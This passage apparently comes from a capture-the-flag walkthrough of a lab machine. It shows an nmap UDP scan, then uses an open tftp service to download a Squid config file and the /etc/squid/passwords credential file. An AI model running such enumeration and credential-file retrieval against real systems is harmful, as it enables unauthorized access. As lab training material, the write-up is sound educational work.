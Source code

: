 Now trying to go to the ip it hangs so probably a username and password is needed, and with these 2 ports there's nothing to do, so let's do a UDP scan

```bash
$ sudo nmap -sU 10.10.10.21
PORT     STATE         SERVICE
69/udp   open|filtered tftp
5355/udp open|filtered llmnr
```

<br/>

Now, enumerate port 69 that is tftp, now I searched for different files, but I need a password so let's search for the squid config file

```bash
tftp> get /etc/squid/squid.conf
```

Ths file has a lot of content so i'm going to grep for password

```bash
$ cat squid.conf | grep  "password"
#               their username and password.
#               password verifications are done via a (slow) network you are
#         password=     The users password (for login= cache_peer option)
#         # to check username/password combinations (see
#               acl password proxy_auth REQUIRED
auth_param basic program /usr/lib/squid/basic_ncsa_auth /etc/squid/passwords
#  TAG: sslpassword_program
#       selection of the right password if you have multiple encrypted
#       login=user:password
#                       to pass on, but username and password are available
#                       from an external ACL user= and password= result tags
#                       password to the peer. USE WITH CAUTION
#       login=*:password
#                       fixed password. This is meant to be used when the peer
#                       the login=username:password option above.
#                       it is the password; for Digest, the realm sent by the
#       If you want the anonymous login password to be more informative
#       (taken from the password file) and supplementary group list
#       "password=<password>" to the end of this service declaration.
#       wccp2_service standard 0 password=foo
#       Specify passwords for cachemgr operations.
#       Usage: cachemgr_passwd password action action ...
#         valid password, others can be performed if not listed here.
#       To disable an action, set the password to "disable".
#       To allow performing an action without a password, set the
#       password to "none".
#       Use the keyword "all" to set the same password for all actions.
# No password. Actions which require password are denied.
```

Now let's get the /etc/squid/passwords file

```bash
tftp> get /etc/squid/passwords
```
